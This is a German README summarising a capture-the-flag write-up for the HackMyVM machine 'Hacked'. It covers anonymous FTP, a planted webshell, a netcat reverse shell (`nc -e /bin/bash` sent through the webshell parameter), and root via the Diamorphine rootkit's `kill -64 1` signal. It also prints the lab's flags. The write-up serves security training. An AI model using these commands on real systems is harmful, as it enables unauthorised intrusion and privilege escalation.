 # Hacked - HackMyVM (Hard) - Writeup

![Hacked Icon](Hacked.png)

Dieses Repository enthält einen zusammengefassten Bericht über die Kompromittierung der HackMyVM-Maschine "Hacked" (Schwierigkeitsgrad: Hard).

## Metadaten

*   **Maschine:** Hacked (HackMyVM - Hard)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Hacked](https://hackmyvm.eu/machines/machine.php?vm=Hacked)
*   **Autor des Writeups:** DarkSpirit
*   **Datum:** 18. Oktober 2022
*   **Original Writeup:** [https://alientec1908.github.io/Hacked_HackMyVM_Hard/](https://alientec1908.github.io/Hacked_HackMyVM_Hard/)

## Zusammenfassung des Angriffspfads

Die initiale Erkundung mit `nmap` offenbarte einen FTP-Dienst (Port 21, vsftpd) mit erlaubtem anonymen Login, einen SSH-Dienst (Port 22) und einen Nginx-Webserver (Port 80). Über den anonymen FTP-Zugriff wurde eine `flag.txt` (Flag 1) und eine versteckte Datei `.passwd` heruntergeladen, die das Klartext-Passwort `webserver2023!` enthielt.

Die Web-Enumeration auf Port 80 (nachdem der Hostname `hack.hmv` in `/etc/hosts` eingetragen wurde) führte über `robots.txt` zur Datei `/secretnote.txt`. Diese Notiz von "h4x0r" enthielt den Hinweis, dass eine Webshell installiert sei. Ein `gobuster`-Scan mit einer Webshell-Liste fand `/simple-backdoor.php`. Mittels `wfuzz` wurde der GET-Parameter `secret` für diese Webshell identifiziert.

Durch Ausnutzung der Webshell (`simple-backdoor.php?secret=[Befehl]`) wurde Remote Code Execution (RCE) erlangt und eine Reverse Shell als Benutzer `www-data` etabliert.

Die lokale Enumeration als `www-data` deckte durch Vergleich der Kernelmodule (`ls /sys/module/`) das Vorhandensein des `Diamorphine`-Rootkits auf. Durch Senden des Signals 64 an PID 1 (`kill -64 1`) wurden Root-Rechte erlangt. Anschließend wurden die User-Flag im Home-Verzeichnis von `h4x0r` und die Root-Flag im `/root`-Verzeichnis ausgelesen.

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `vi` / Editor
*   `nmap`
*   `ftp`
*   `cat`
*   `gobuster`
*   `curl`
*   `wfuzz`
*   `nc` (netcat)
*   `python3` (`pty` module)
*   `stty`
*   `ls`
*   `grep`
*   `kill`
*   `id`
*   `cd`

## Angriffsschritte (Übersicht)

1.  **Reconnaissance:** Ziel-IP (`arp-scan`), Hostname (`hack.hmv` in `/etc/hosts`). `nmap` -> Port 21 (FTP, anon), Port 22 (SSH), Port 80 (HTTP/Nginx).
2.  **FTP Enumeration & Credential Discovery:** Anonymer Login (`ftp`). `get flag.txt` (Flag 1). `ls -la` -> `.passwd` finden. `get .passwd` -> Passwort `webserver2023!`.
3.  **Web Enumeration:** `gobuster` (findet `robots.txt`). `curl robots.txt` -> `/secretnote.txt`. `curl /secretnote.txt` -> Hinweis auf Webshell von "h4x0r".
4.  **Webshell Discovery:** `gobuster` mit Webshell-Liste (`backdoor_list.txt`) -> `/simple-backdoor.php`.
5.  **Parameter Fuzzing:** `wfuzz` auf `simple-backdoor.php` -> GET-Parameter `secret` gefunden.
6.  **Initial Access (Webshell RCE):** RCE via `curl ".../simple-backdoor.php?secret=id"` bestätigt. `nc`-Listener starten. Reverse Shell mit `curl ".../simple-backdoor.php?secret=nc -e /bin/bash..."` -> Shell als `www-data`. Stabilisieren (`python pty`, `stty`).
7.  **Privilege Escalation Vector:** Kernelmodule auflisten und vergleichen (`ls /sys/module/ ...`) -> `Diamorphine` Rootkit identifiziert.
8.  **Root Access:** `kill -64 1` ausführen -> `uid=0(root)`.
9.  **Flags:** User-Flag (`cat /home/h4x0r/user.txt`) und Root-Flag (`cat /root/root.txt`) lesen.

## Flags

*   **Flag 1 (FTP):** `HMV{AN0NYM0US_IS_THE_BEST_USER}`
*   **User Flag (`/home/h4x0r/user.txt`):** `HMVimthabesthacker`
*   **Root Flag (`/root/root.txt`):** `HMVhackingthehacker`

---

## Disclaimer

Die hier dargestellten Informationen und Techniken dienen ausschließlich Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Methoden dürfen nur auf Systemen angewendet werden, für die eine ausdrückliche Genehmigung vorliegt (z.B. in CTF-Umgebungen wie HackMyVM, Penetrationstests mit schriftlicher Erlaubnis). Das unbefugte Eindringen in fremde Computersysteme ist illegal und strafbar. Die Autoren übernehmen keine Haftung für missbräuchliche Verwendung der bereitgestellten Informationen. Handeln Sie stets legal und ethisch verantwortlich.

---
